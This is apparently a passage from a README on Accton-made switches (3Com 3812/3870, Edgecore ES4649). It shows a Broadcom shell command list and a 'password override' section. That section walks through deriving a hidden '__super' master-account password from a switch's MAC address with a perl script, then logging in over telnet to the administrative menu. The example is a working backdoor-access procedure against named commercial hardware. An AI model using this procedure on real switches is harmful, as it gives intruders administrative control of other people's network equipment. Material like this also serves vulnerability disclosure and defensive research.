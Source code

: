 ```
CounTeR        DAC            DELete         DETach         DMux
DSCP           DTAG           Dump           EditReg        EGRess
Filter         Getreg         HASH           HeaderMode     I2C
IBDump         IFConfig       INIT           Insert         INTR
IPG            IPMC           L2             L2MODE         L3
LCDMSG         LED            LINKscan       LISTmem        Listreg
LOOKup         MCAST          MIRror         MmuConFiG      MODify
Modreg         MUXsel         NetStat        NVram          PacketWatcher
PBMP           PHY            PKTSpeed       POE            PORT
PortRate       PortStat       PROBE          PUTREG         PVlan
RATE           RegCMp         REMove         RXCfg          RXMon
SCHan          SEArch         Setreg         SFAPINIT       SHOW
SIZEGBP        SlotHDR        SOC            STG            STiMeout
SVL            SystemSnake    TEMPerature    TestClear      TestList
TestMode       TestParameters TestRun        TestSelect     TRUNK
TX             TXCount        TXSTArt        TXSTOp         VLAN
Write          XClocks        XModem         XQDump         XQErr
BCM.0>
```

### Password override

There's a master account whose password is based on a challenge on the switches MAC-address.



Tested on

- 3com 3812
- 3com 3870
- Edgecore ES4649

```
Example:
# arp -an | grep 10.0.1.2
? (10.0.1.2) at 00:0E:6A:CB:B4:41 [ether] on eth0
# perl accton.pl 000E6ACBB441
!!98DMlH
# telnet 10.0.1.2
Trying 10.0.1.2...
Connected to 10.0.1.2.
Escape character is '^]'.
Login: __super
Password: !!98DMlH

Menu options: -------3Com SuperStack 3 Switch 3824 24-port---------------------
 bridge              - Administer bridge-wide parameters
 feature             - Administer system features
 gettingStarted      - Basic device configuration
 logout              - Logout of the Command Line Interface
 physicalInterface   - Administer physical interfaces
 protocol            - Administer protocols
 security            - Administer security
 system              - Administer system-level functions
 trafficManagement   - Administer traffic management

Type ? for help.
--------------------------------testswitch (1)--------------------------------
Select menu option:
telnet> close
Connection closed.
```
